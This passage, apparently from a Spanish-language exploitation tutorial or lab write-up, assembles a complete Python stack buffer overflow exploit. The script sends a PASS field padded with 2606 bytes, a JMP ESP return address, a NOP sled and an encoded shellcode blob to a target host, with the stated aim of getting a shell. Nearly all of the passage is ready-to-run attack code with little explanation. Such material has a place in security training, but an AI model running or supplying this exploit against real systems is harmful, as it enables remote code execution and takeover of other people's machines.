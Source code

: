 ### 2. Juntar todo y obtener una shell

Ahora para que el código funcione necesitamos agregar unos NOP's antes de la shellcode y en donde se encuentra el EIP poner la dirección de memoria donde se encuentre el JMP ESP para apuntar a nuestro shellcode:

{% code lineNumbers="true" %}
```python
#!/usr/bin/python3

import sys
import socket
from pwn import *

target_ip = sys.argv[1]
target_port = sys.argv[2]

if len(sys.argv) != 3:
    print("[!] Usage: python3 %s <target-ip> <target-port>" % (sys.argv[0]))
    exit(0)

if __name__ == '__main__':
    shellcode = (
        b"\xb8\xe0\xe0\xbd\x3f\xda\xca\xd9\x74\x24\xf4\x5e\x2b\xc9"
        b"\xb1\x52\x83\xee\xfc\x31\x46\x0e\x03\xa6\xee\x5f\xca\xda"
        b"\x07\x1d\x35\x22\xd8\x42\xbf\xc7\xe9\x42\xdb\x8c\x5a\x73"
        b"\xaf\xc0\x56\xf8\xfd\xf0\xed\x8c\x29\xf7\x46\x3a\x0c\x36"
        b"\x56\x17\x6c\x59\xd4\x6a\xa1\xb9\xe5\xa4\xb4\xb8\x22\xd8"
        b"\x35\xe8\xfb\x96\xe8\x1c\x8f\xe3\x30\x97\xc3\xe2\x30\x44"
        b"\x93\x05\x10\xdb\xaf\x5f\xb2\xda\x7c\xd4\xfb\xc4\x61\xd1"
        b"\xb2\x7f\x51\xad\x44\xa9\xab\x4e\xea\x94\x03\xbd\xf2\xd1"
        b"\xa4\x5e\x81\x2b\xd7\xe3\x92\xe8\xa5\x3f\x16\xea\x0e\xcb"
        b"\x80\xd6\xaf\x18\x56\x9d\xbc\xd5\x1c\xf9\xa0\xe8\xf1\x72"
        b"\xdc\x61\xf4\x54\x54\x31\xd3\x70\x3c\xe1\x7a\x21\x98\x44"
        b"\x82\x31\x43\x38\x26\x3a\x6e\x2d\x5b\x61\xe7\x82\x56\x99"
        b"\xf7\x8c\xe1\xea\xc5\x13\x5a\x64\x66\xdb\x44\x73\x89\xf6"
        b"\x31\xeb\x74\xf9\x41\x22\xb3\xad\x11\x5c\x12\xce\xf9\x9c"
        b"\x9b\x1b\xad\xcc\x33\xf4\x0e\xbc\xf3\xa4\xe6\xd6\xfb\x9b"
        b"\x17\xd9\xd1\xb3\xb2\x20\xb2\x7b\xea\xde\xcb\x14\xe9\x1e"
        b"\xdd\xb5\x64\xf8\xb7\x25\x21\x53\x20\xdf\x68\x2f\xd1\x20"
        b"\xa7\x4a\xd1\xab\x44\xab\x9c\x5b\x20\xbf\x49\xac\x7f\x9d"
        b"\xdc\xb3\x55\x89\x83\x26\x32\x49\xcd\x5a\xed\x1e\x9a\xad"
        b"\xe4\xca\x36\x97\x5e\xe8\xca\x41\x98\xa8\x10\xb2\x27\x31"
        b"\xd4\x8e\x03\x21\x20\x0e\x08\x15\xfc\x59\xc6\xc3\xba\x33"
        b"\xa8\xbd\x14\xef\x62\x29\xe0\xc3\xb4\x2f\xed\x09\x43\xcf"
        b"\x5c\xe4\x12\xf0\x51\x60\x93\x89\x8f\x10\x5c\x40\x14\x30"
        b"\xbf\x40\x61\xd9\x66\x01\xc8\x84\x98\xfc\x0f\xb1\x1a\xf4"
        b"\xef\x46\x02\x7d\xf5\x03\x84\x6e\x87\x1c\x61\x90\x34\x1c"
        b"\xa0")

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target_ip, int(target_port)))

        s.send(b"USER test\r\n")
       
        payload = b"PASS " +  b"\x41" * 2606 + b'\x6B\xCC\x4B\x5F' + b'\x90' * 16 + shellcode + b"\r\n"
        s.send(payload)
        data = s.recv(1024)
        s.close()

    except:
        print("[!] Error de conexion")
```